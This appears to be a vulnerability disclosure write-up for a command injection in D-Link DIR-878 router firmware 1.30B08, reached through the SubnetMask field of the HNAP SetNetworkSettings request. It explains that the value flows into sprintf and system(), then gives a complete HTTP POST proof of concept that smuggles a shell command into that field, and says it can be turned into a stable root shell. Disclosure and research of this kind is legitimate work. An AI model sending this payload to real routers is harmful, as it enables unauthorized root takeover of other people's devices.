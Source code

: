 # D-link DIR_878_FW1.30B08.bin Command injection vulnerability

A command injection vulnerability in the component /SetNetworkSettings/SubnetMask of D-Link DIR878 DIR_878_FW1.30B08 allows attackers to escalate privileges to root via a crafted payload.

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ： http://tsd.dlink.com.tw/GPL.asp

## 1. Affected version

![pic1](pic1.png)Figure 1 shows the latest firmware Ba of the router



## Vulnerability details

![pic2](pic2.png)

The program obtains the content through the / setnetworksettings / SubnetMask parameter and passes it to v7

![pic3](pic3.png)

Then V7 formats the matched content into v39 through the sprintf function, and finally executes the content in v39 through the system function. There is a command injection vulnerability



## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware DIR_878_FW1.30B08.bin
2. Attack with the following POC attacks，then the router system will reboot.

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH:
Content-Length: 633
Origin: http://192.168.0.1:7018
Connection: close
Referer: http://192.168.0.1:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=LeaHzVaQ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetNetworkSettings xmlns="http://purenetworks.com/HNAP1/">
	<IPAddress>192.168.5.1</IPAddress>
	<SubnetMask>&& ls > /tmp/456 &&echo 1</SubnetMask>
	<DeviceName>dlinkrouter3</DeviceName>
	<LocalDomainName></LocalDomainName>
	<IPRangeStart>1</IPRangeStart>
	<IPRangeEnd>254</IPRangeEnd>
	<LeaseTime>10080</LeaseTime>
	<Broadcast>false</Broadcast>
	<DNSRelay>true</DNSRelay>
</SetNetworkSettings>
</soap:Body>
</soap:Envelope>
```

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell